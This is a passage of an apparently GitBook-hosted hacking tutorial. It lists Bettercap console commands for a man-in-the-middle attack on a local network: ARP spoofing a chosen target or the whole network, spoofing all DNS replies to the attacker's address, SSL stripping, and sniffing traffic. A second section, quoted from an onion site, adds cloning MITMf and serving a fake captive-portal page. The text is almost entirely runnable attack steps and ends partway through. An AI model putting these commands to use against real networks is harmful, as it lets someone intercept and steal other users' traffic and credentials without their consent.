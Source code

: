 
### Re-directing HTTPS requests to your webserver over the network with Bettercap&#x20;

* In Kali open up a new terminal window and type the following:&#x20;
  * \#sudo service apache2 restart&#x20;
  * \#sudo bettercap&#x20;
* All the following commands below are to be entered into the bettercap window.&#x20;
  * net.probe on&#x20;
  * Wait 30 seconds for it to discover network hosts.&#x20;
  * net.probe off&#x20;
  * net.show&#x20;
  * This will show you the targets on the network. Pay attention to your target IP.&#x20;
  * set https.proxy.sslstrip true&#x20;
  * set net.sniff.verbose false&#x20;
  * set arp.spoof.targets TARGET\_IP&#x20;
* My example:
  * set arp.spoof.targets 192.168.2.100&#x20;
  * set dns.spoof.domains __&#x20;
  * set dns.spoof.address ATTACKER\_IP&#x20;
* My example:&#x20;
  * set dns.spoof.address 192.168.2.233&#x20;
  * set dns.spoof.all true&#x20;
  * net.sniff on&#x20;
  * https.proxy on&#x20;
  * arp.spoof on&#x20;
  * dns.spoof on


{% endtab %}

{% tab title="Bettercap Master Attack" %}
### Bettercap Master Attack

Quoted directly from [http://hacktownpagdenbb.onion/Links2/Chapter-11.html](http://hacktownpagdenbb.onion/Links2/Chapter-11.html)\
\
Easy FTP server\
• In Kali open up a new Terminal window and type the following:\
• git clone https://github.com/byt3bl33d3r/MITMf.git\
• sudo cp \~/MITMf/config/captive/portal.html /var/www/html/index.html\
• pip3 install pyftpdlib\
\
Bettercap has these things called "caplets" which come preinstalled that are modules that you're able to load to get a certain task done. We're going to use a bettercap caplet along with a combination of another\
\
For this example:\
My attacker computer IP is 192.168.2.233\
My target computer IP is 192.168.2.100\
\
In Kali open up a new Terminal window and type the following:\
&#x20;sudo service apache2 restart\
&#x20;sudo bettercap\
All the following commands below are to be entered into the bettercap window.\
net.probe on\
Wait 30 seconds for it to discover network hosts.\
net.probe off\
&#x20;net.show\
This will show you the targets on the network. Pay attention for your targets IP.\
set arp.spoof.targets TARGET\_IP\
My example:\
set arp.spoof.targets 192.168.2.100\
To attack the whole network:\
set arp.spoof.targets \*\
